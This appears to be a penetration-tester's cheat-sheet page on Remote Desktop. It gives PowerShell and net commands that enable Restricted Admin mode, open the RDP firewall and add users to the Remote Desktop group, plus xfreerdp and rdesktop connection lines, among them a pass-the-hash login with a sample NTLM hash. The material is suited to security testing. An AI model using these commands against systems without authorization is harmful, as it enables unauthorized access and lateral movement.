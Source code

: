```yaml
---
title: Remote Desktop
parent: General Usage
layout: default
nav_order: 22
---
```


Enabling restricted admin (to use RDP):\
`New-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Lsa'  -Name 'DisableRestrictedAdmin' -Value 0 -PropertyType DWORD`

Firewall for RDP:\
`Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0 Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`

Add yourself to be able to remote (both works):\
`net localgroup "Remote Desktop Users" "UserName" /add`\
OR\
`powershell.exe Add-LocalGroupMember -Group "Remote Desktop Users" -Member "UserName"`

xfreerdp:\
`xfreerdp /cert:ignore /v:server /port:port /u:user@domain /p:password /size:1720x880 /drive:kalitemp,/tmp/ +clipboard`

rdesktop (domain connection use this):\
`rdesktop -u user@domain -p password -g 90% IP`

Pass the **hash**, no need to add LM hash! (add `/sec:tls` if this does not work):\
`xfreerdp /cert:ignore /v:server /port:port /u:user@domain /pth:4c027eb32130982d1b960575d66f31d9/drive:kalitemp,/tmp/ +clipboard`

If cannot connect, try adding append this to the end of command:\
`/tls-seclevel:0`